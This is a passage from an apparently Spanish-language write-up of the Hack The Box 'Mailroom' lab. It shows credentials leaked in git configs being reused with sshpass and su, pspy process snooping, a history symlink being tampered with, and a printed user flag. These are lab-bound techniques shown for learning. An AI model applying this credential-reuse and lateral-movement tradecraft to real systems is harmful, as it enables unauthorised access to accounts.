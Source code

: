         bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://matthew:HueLover83%23@gitea:3000/matthew/mailroom.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main
[user]
        email = matthew@mailroom.htb
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://matthew:HueLover83%23@gitea:3000/matthew/staffroom.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main
[user]
        email = matthew@mailroom.htb
{% endhighlight %}

Iniciar sesion en  `git.mailroom.htb` nos devuelve el mismo codigo de estado 500.

No funcionan en ssh.
{% highlight sh %}
λ ubuntu-pc Mailroom → sshpass -p 'HueLover83#' ssh matthew@10.10.11.209
matthew@10.10.11.209: Permission denied (publickey).
{% endhighlight %}

Desde la sesion de tristan si funciona.

Y obtenemos user.txt
{% highlight sh %}
tristan@mailroom:~$ su --login matthew
Password: HueLover83#
matthew@mailroom:~$ cat user.txt
c2c1e4eb34b133fcec835f912725cdee
{% endhighlight %}

Subiendo pspy y ejecutandolo vemos que nuestro usuario ejecuta `/usr/bin/perl /usr/bin/kpcli`.
{% highlight sh %}
2023/08/14 02:56:47 CMD: UID=1001  PID=32750  | ./pspy
2023/08/14 02:56:47 CMD: UID=1001  PID=32737  | /usr/bin/perl /usr/bin/kpcli
2023/08/14 02:56:47 CMD: UID=1001  PID=32731  | /lib/systemd/systemd --user
2023/08/14 02:56:47 CMD: UID=1001  PID=32101  | -bash
{% endhighlight %}
Leamos el historial.
{% highlight sh %}
matthew@mailroom:~$ ls -al .kpcli-history
lrwxrwxrwx 1 root root 9 Jan 15  2023 .kpcli-history -> /dev/null
matthew@mailroom:~$ unlink .kpcli-history
{% endhighlight %}
